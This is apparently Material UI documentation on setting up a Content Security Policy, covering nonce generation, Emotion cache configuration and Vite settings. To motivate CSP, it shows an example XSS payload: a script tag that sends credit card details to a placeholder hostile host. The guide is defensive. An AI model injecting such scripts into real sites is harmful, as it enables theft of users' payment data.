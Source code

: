 # Content Security Policy (CSP)

<p class="description">This section covers the details of setting up a CSP.</p>

## What is CSP and why is it useful?

CSP mitigates cross-site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. This list is returned as a header from the server. For instance, say you have a site hosted at `https://example.com` the CSP header `default-src: 'self';` will allow all assets that are located at `https://example.com/*` and deny all others. If there is a section of your website that is vulnerable to XSS where unescaped user input is displayed, an attacker could input something like:

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

This vulnerability would allow the attacker to execute anything. However, with a secure CSP header, the browser will not load this script.

You can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

## How does one implement CSP?

### Server-Side Rendering (SSR)

To use CSP with Material UI (and Emotion), you need to use a nonce.
A nonce is a randomly generated string that is only used once, therefore you need to add server middleware to generate one on each request.

A CSP nonce is a Base 64 encoded string. You can generate one like this:

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

You must use UUID version 4, as it generates an **unpredictable** string.
You then apply this nonce to the CSP header. A CSP header might look like this with the nonce applied:

```js
header('Content-Security-Policy').set(
  `default-src 'self'; style-src 'self' 'nonce-${nonce}';`,
);
```

You should pass the nonce in the `<style>` tags on the server.

```jsx
<style
  data-emotion={`${style.key} ${style.ids.join(' ')}`}
  nonce={nonce}
  dangerouslySetInnerHTML={{ __html: style.css }}
/>
```

Then, you must pass this nonce to Emotion's cache so it can add it to subsequent `<style>`.

:::warning
If you were using `StyledEngineProvider` with `injectFirst`, you will need to replace it with `CacheProvider` from Emotion and add the `prepend: true` option.
:::

```js
const cache = createCache({
  key: 'my-prefix-key',
  nonce: nonce,
  prepend: true,
});

function App(props) {
  return (
    <CacheProvider value={cache}>
      <Home />
    </CacheProvider>
  );
}
```

### CSP in Vite

According to the [Vite Docs](https://vite.dev/guide/features.html#content-security-policy-csp), Vite requires a few specific configurations for proper CSP deployment due to its internal handling of assets and modules.

#### Vite supports CSP with a few configurations:

Nonce Injection:
When you set `html.cspNonce` in your Vite config, Vite adds a nonce to all <script>, <style>, and stylesheet <link> tags, and injects a meta tag:

```html
<meta property="csp-nonce" nonce="PLACEHOLDER" />
```

> Replace PLACEHOLDER with a unique nonce per request.

* Asset Inlining:

Vite inlines small assets as data URIs by default. For CSP, allow `data:` for safe directives like `img-src` and `font-src`, but never for `script-src`. Alternatively, disable inlining by setting build.`assetsInlineLimit: 0`.

This configuration keeps your Vite project CSP-compliant without requiring inline runtime scripts.

### styled-components

The configuration of the nonce is not straightforward, but you can follow [this issue](https://github.com/styled-components/styled-components/issues/2363) for more insights.
